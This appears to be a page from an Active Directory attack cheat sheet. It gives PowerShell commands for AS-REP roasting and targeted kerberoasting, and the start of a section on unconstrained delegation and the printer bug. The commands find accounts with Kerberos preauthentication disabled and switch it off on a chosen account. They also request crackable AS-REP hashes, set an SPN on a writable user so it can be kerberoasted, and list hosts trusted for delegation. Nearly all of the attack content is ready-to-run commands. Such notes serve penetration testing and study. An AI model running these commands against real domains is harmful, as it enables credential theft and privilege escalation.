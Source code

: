 ### Targeted Kerberoasting AS REPs


```powershell
# The idea of this is similar to kerberoasting. It can be done also from a non joined machine with impacket
  
# Enumerating accounts with Kerberos Preauth disabled
Get-DomainUser -PreauthNotRequired -Verbose

# Enumerating the permissions for RDPUsers on ACLs using
Find-InterestingDomainACL -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Enumerating accounts with Kerberos Preauth disabled
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth

# Set unsolicited pre-authentication for test01 UAC settings
Set-DomainObject -Identity test01 -XOR @{useraccountcontrol=4194304} -Verbose

# Request encrypted AS REP
Get-ASREPHash -UserName VPN1user -Verbose

# Or to enumerate and ask hash for all users that has Preath disabled
Invoke-ASREPRoast -Verbose 
```

### Targeted Kerberoasting Set SPN

```powershell
# This can be an alternative to reset password to a user we have write access to
# The idea is to add an SPN to a user we can modify and then Kerberoast the SPN

# Check if user01 already has a SPN (powerview or AD module)
Get-DomainUser -Identity User01 | select serviceprincipalname
Get-ADUser -Identity User01 -Properties serviceprincipalname | select serviceprincipalname

# Set a SPN for the user (powerview or AD module)
Set-DomainObject -Identity User01 -Set @{serviceprincipalname='dcorp/whatever1'}
Set-ADUser -Identity User01 -ServicePrincipalNames @{Add='dcorp/whatever1'}

# Then kerberoast as usual
```

### Kerberos Delegation

### Unconstrained Delegation and Printer Bug

```powershell
# With PowerView
# Search for domain computers with unconstrained delegation enabled
Get-DomainComputer -UnConstrained

# Search for domain computers with unconstrained delegation enabled from property name
Get-DomainComputer -Unconstrained | select -ExpandProperty name

# Search for domain computers with unconstrained delegation enabled from property dnshostname
Get-NetComputer -Unconstrained | select -ExpandProperty dnshostname

# With AD module
# Search for domain computers with unconstrained delegation enabled 
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}

# Now that we identified a computer trusted for delegation, we need to get local admin access to that computer.
```